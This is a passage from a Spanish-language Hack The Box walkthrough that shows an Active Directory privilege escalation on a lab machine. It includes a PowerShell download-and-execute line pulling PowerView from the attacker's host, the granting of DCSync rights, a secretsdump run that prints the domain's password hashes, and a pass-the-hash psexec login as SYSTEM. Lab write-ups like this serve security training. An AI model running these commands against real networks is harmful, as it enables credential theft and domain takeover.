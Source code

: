 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.161 - - [11/Oct/2023 17:32:48] "GET /PowerView.ps1 HTTP/1.1" 200 -
```

```bash
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> Iex(New-Object Net.WebClient).downloadString('http://10.10.16.10/PowerView.ps1')
```
Finalmente ejecutamos la función `Add-DomainObjectAcl` del `PowerView.ps1` que importamos.

```bash
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb, DC=local" -PrincipalIdentity fmiracle -Rights DCSync
```

Y ahora en nuestro equipo podemos usar `secretdump` usando las credenciales del usuario `fmiracle` y podemos dumpearnos todos los hashes del dominio.

```bash
❯ secretsdump.py htb.local/fmiracle@10.10.10.161
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denid
[*] Dumping Domain Credentials 
[*] Using the DRSUAPI method to get NTDS.DIT secret
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Aplicamos `pass the hash` con `psexec.py` para conectarnos como el usuario `Administrator`, nos dirigimos al directorio personal del usuario y podemos visualizar la segunda flag `root.txt`.


```bash
❯ psexec.py htb.local/Administrator@10.10.10.161 -hashes :32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file bUDVoWTk.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service jeFE on 10.10.10.161.....
[*] Starting service jeFE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator\Desktop
```
